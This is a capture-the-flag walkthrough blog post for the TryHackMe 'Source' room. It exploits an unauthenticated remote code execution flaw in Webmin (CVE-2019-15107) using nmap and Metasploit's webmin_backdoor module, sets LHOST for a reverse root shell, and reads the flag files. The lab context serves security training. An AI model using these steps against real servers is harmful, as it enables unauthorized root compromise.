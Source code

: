 ```yaml
---
layout: post
title: "Source - TryHackMe"
date: 2020-07-11
excerpt: "Walkthrough for Source on TryHackme"
tags: [Source, TryHackMe, Webmin, CVE-2019-15107]
comments: false
---
```




This is an easy box on [TryHackMe](https://tryhackme.com) based on a recent Webmin exploit. Here are the steps to follow to own this box.

First, let's enumerate the box with nmap with **nmap -p- -vv -T4 [machine ip]**.

This shows 2 ports open, 22 (ssh) and 10000 (typically used for webmin)

![Source nmap](/assets/img/Source1.png)

Let's pull up the site on port 10000 with **https://[machine ip]:10000**. This site is using a self signed certificate, so accept the certificate and you will be presented with a webmin login page. A quick Google search shows you that one of the latest CVEs for Webmin was CVE-2019-15107, which allows for remote code execution without authentication. This is because of a bug in a parameter in password_change.cgi. Let's launch Metasploit with **msfconsole** and run **search webmin 1.920** one of the results will include an exploit we can use.

![Source Metasploit](/assets/img/Source2.png)

Let's run **use exploit/linux/http/webmin_backdoor** followed by **show options**. You should see a screen similar to the following:

![Source exploit options](/assets/img/Source3.png)

Let's run **SET RHOSTS [machine ip]**, **SET SSL true**, **SET LHOST [your VPN IP] **and then once set, use **run** to attempt the exploit.

![Source run exploit](/assets/img/Source4.png)

You should get a shell within a few moments.

![Source root shell](/assets/img/Source5.png)

Run **whoami** and you will see you have root access.

![Source whoami](/assets/img/Source6.png)

Let's upgrade our shell with **python -c 'import pty; pty.spawn("/bin/sh")'**. Now, let's navigate to the main user home directory with **cd /home** and run **ls** to list the user directories on this server. You will see that there is a user name of **dark** here. 

![Source enumerate user home](/assets/img/Source7.png)

Let's go into his directory with **cd dark** and run **ls -al** to list directory contents. You will see a **user.txt** file, let's run **cat user.txt** and you now have the user flag.

![Source user flag](/assets/img/Source8.png)

Next, let's navigate to /root with **cd /root** and run **ls**. You will see a file named root.txt. Let's view it's contents with **cat root.txt**

![Source root flag](/assets/img/Source9.png)
